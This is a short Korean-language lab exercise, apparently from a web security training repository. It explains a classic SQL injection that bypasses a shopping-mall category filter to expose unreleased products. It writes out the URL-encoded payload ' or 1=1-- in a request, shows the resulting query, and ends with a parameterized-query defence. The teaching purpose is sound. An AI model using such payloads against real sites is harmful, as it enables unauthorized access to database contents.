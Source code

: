 ## 🕵️‍♂️ WHERE — 숨겨진 데이터 검색

**목표:** 카테고리 필터를 우회하여 숨겨진 제품 데이터 확인 및 SQL Injection 이해 <br />

<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/20213b7f-ae18-4d3e-8e3e-9a4be850ecd4" />

<br />

### 🧪 실습

1️⃣ 기본 요청 확인:

```text
GET {{shopping_mall_url}}/filter?category=Lifestyle
```

2️⃣ category 파라미터 변경:

```text
filter?category=%27+or+1=1--  // decodeURIComponent: '+or+1=1--'
```

3️⃣ 결과 확인:<br />

→ 필터를 무력화하면 모든 제품이 반환될 수 있다.

<br />

### ⚠️ 취약 원리

입력값 `' or 1=1--` 삽입으로, 모든 조건을 무력화하고 WHERE 조건을 항상 참으로 만든다.

```sql
SELECT *
FROM products
WHERE category = '[사용자입력]' and release = 1;

SELECT *
FROM products
WHERE category = '' or 1=1--' and release = 1;
```

<br />


### 🛡️ 방어책

**ex) 파라미터화 쿼리**:

```js
const [rows] = await connection.execute(
  'SELECT * FROM users WHERE username = ? AND password = ?',
  [usernameInput, passwordInput]
);
```
